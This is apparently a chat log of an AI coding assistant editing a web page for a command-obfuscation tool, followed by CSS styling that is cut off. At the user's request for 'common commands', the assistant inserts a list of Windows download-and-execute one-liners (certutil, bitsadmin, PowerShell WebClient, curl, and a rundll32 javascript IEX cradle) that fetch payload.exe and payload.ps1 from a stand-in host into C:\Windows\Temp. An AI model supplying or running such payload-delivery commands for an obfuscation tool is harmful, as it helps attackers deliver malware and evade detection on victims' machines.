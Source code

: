 
_**User**_

我只要一个框放常见命令的字符串就行，不需要那么复杂

---

_**Assistant**_

明白了,我们简化一下,直接在输入框上方放一个简单的命令列表:

---

```diff
  header: |
              <div class="tools">
+                             <div class="cmd-list">
+                                 <div class="cmd-item">certutil -urlcache -split -f http://example.com/payload.exe C:\Windows\Temp\payload.exe</div>
+                                 <div class="cmd-item">powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://example.com/payload.exe', 'C:\Windows\Temp\payload.exe')"</div>
+                                 <div class="cmd-item">bitsadmin /transfer myJob /download /priority high http://example.com/payload.exe C:\Windows\Temp\payload.exe</div>
+                                 <div class="cmd-item">curl -o C:\Windows\Temp\payload.exe http://example.com/payload.exe</div>
+                                 <div class="cmd-item">rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')");</div>
+                             </div>
                              <textarea id="input-command" placeholder="Please paste the command you want to obfuscate here…" tabindex="0" autocomplete="off" autocorrect="off" autocapitalize="off" spellcheck="false"></textarea>
                              <div class="command-bar">
```

---

添加简单的CSS样式:

---

```diff
      width: 80%;
  }
+ 
+ .cmd-list {
+     background: rgba(255, 255, 255, 0.1);
+     border-radius: 4px;
+     padding: 10px;
+     margin-bottom: 10px;
+     font-family: Monaco, Menlo, Consolas, monospace;
+     font-size: 13px;
+ }
+ 
+ .cmd-item {
+     color: #fff;
+     padding: 5px;
+     cursor: pointer;
+     white-space: pre-wrap;
+     word-break: break-all;
+ }
+ 
+ .cmd-item:hover {
+     background: rgba(255, 255, 255, 0.1);
+ }
+ 
+ @media (prefers-color-scheme: dark) {
+     .cmd-list {
```